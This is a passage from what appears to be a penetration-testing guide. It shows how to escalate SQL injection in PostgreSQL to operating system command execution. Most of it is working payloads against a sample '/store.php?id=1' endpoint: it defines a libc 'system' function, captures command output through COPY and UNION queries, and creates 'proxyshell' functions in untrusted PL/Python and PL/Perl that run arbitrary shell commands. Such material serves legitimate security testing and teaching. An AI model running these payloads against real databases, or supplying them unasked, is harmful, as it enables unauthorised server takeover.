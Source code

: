 Since `system` returns an `int` how we can fetch results from `system` stdout?

Here’s a little trick:

-   create a `stdout` table: `CREATE TABLE stdout(id serial, system_out text)`
-   executing a shell command redirecting its `stdout`: `SELECT system('uname -a > /tmp/test')`
-   use a `COPY` statements to push output of previous command in `stdout` table: `COPY stdout(system_out) FROM '/tmp/test*'`
-   retrieve output from `stdout`: `SELECT system_out FROM stdout`

###### Example

```
/store.php?id=1; CREATE TABLE stdout(id serial, system_out text) --
/store.php?id=1; CREATE FUNCTION system(cstring) RETURNS int AS '/lib/libc.so.6','system' LANGUAGE 'C'
STRICT --
/store.php?id=1; SELECT system('uname -a > /tmp/test') --
/store.php?id=1; COPY stdout(system_out) FROM '/tmp/test' --
/store.php?id=1 UNION ALL SELECT NULL,(SELECT system_out FROM stdout ORDER BY id DESC),NULL LIMIT 1 OFFSET 1--
```

##### Plpython

PL/Python allows users to code PostgreSQL functions in python. It’s untrusted so there is no way to restrict what user can do. It’s not installed by default and can be enabled on a given database by `CREATELANG`

-   Check if PL/Python has been enabled on a database: `SELECT count(*) FROM pg_language WHERE lanname='plpythonu'`
-   If not, try to enable: `CREATE LANGUAGE plpythonu`
-   If either of the above succeeded, create a proxy shell function: `CREATE FUNCTION proxyshell(text) RETURNS text AS 'import os; return os.popen(args[0]).read() 'LANGUAGE plpythonu`
-   Have fun with: `SELECT proxyshell(os command);`

###### Example

-   Create a proxy shell function: `/store.php?id=1; CREATE FUNCTION proxyshell(text) RETURNS text AS ‘import os;return os.popen(args[0]).read()’ LANGUAGE plpythonu;--`
-   Run an OS Command: `/store.php?id=1 UNION ALL SELECT NULL, proxyshell('whoami'), NULL OFFSET 1;--`

##### Plperl

Plperl allows us to code PostgreSQL functions in perl. Normally, it is installed as a trusted language in order to disable runtime execution of operations that interact with the underlying operating system, such as `open`. By doing so, it’s impossible to gain OS-level access. To successfully inject a proxyshell like function, we need to install the untrusted version from the `postgres` user, to avoid the so-called application mask filtering of trusted/untrusted operations.

-   Check if PL/perl-untrusted has been enabled: `SELECT count(*) FROM pg_language WHERE lanname='plperlu'`
-   If not, assuming that sysadm has already installed the plperl package, try: `CREATE LANGUAGE plperlu`
-   If either of the above succeeded, create a proxy shell function: `CREATE FUNCTION proxyshell(text) RETURNS text AS 'open(FD,"$_[0] |");return join("",<FD>);' LANGUAGE plperlu`
-   Have fun with: `SELECT proxyshell(os command);`
